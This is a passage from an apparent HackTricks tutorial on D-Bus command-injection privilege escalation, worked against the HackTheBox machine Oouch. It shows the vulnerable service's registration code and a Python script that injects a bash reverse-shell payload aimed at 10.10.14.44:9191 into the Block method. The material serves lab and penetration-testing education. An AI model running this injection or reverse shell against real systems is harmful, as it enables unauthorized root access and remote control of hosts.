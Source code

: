 At the end of this page you can find the** complete C code of the D-Bus application**. Inside of it you can find between the lines 91-97 **how the *****D-Bus object path***  **and *****interface name***** are registered**. This information will be necessary to send information to the D-Bus connection:

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='3445'%3e%3cg data-evernote-id='3446' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='3447' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='3448' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

142  /* Install the object */
143 r =  sd_bus_add_object_vtable(bus,
144  &slot,
145  "/htb/oouch/Block",  /* interface */
146  "htb.oouch.Block",  /* service object */
147 block_vtable,
148  NULL);

Also, in line 57 you can find that **the only method registered** for this D-Bus communication is called `Block `(***Thats why in the following section the payloads are going to be sent to the service object ***`***htb.oouch.Block*** `***, the interface ***`***/htb/oouch/Block*** `*** and the method name ***`***Block*** `):

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='3541'%3e%3cg data-evernote-id='3542' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='3543' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='3544' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

SD_BUS_METHOD("Block",  "s",  "s", method_block, SD_BUS_VTABLE_UNPRIVILEGED),

###

Python[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='3575'%3e%3cg data-evernote-id='3576' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='3577' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='3578' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://book.hacktricks.xyz/linux-unix/privilege-escalation/d-bus-enumeration-and-command-injection-privilege-escalation#python)

The following python code will send the payload to the D-Bus connection to the `Block ` method via `block_iface.Block(runme) ` (*note that it was extracted from the previous chunk of code*):

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='3595'%3e%3cg data-evernote-id='3596' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='3597' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='3598' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

150import dbus
151bus = dbus.SystemBus()
152block_object = bus.get_object('htb.oouch.Block',  '/htb/oouch/Block')
153block_iface = dbus.Interface(block_object, dbus_interface='htb.oouch.Block')
154runme =  ";bash -c 'bash -i >& /dev/tcp/10.10.14.44/9191 0>&1' #"
155response = block_iface.Block(runme)
156bus.close()

###

busctl and dbus-send[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='3691'%3e%3cg data-evernote-id='3692' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='3693' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='3694' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://book.hacktricks.xyz/linux-unix/privilege-escalation/d-bus-enumeration-and-command-injection-privilege-escalation#busctl-and-dbus-send)
